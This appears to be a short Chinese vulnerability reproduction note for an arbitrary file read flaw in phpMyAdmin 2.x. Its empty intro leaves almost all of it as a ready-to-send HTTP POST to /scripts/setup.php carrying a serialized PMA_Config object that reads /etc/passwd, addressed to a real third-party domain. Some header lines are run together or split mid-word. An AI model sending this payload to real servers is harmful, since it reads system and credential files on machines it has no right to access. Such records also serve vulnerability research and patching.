 # （WooYun-2016-1994）Phpmyadmin 任意文件读取漏洞

## 一、漏洞简介

## 二、漏洞影响

phpMyAdmin2.x 版本

## 三、复现过程

```
POST /scripts/setup.php HTTP/1.1 
Host: baidu.com:8080
Accept-Encoding: gzip, deflate Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trid ent/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded Content-Length: 80
action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}

```

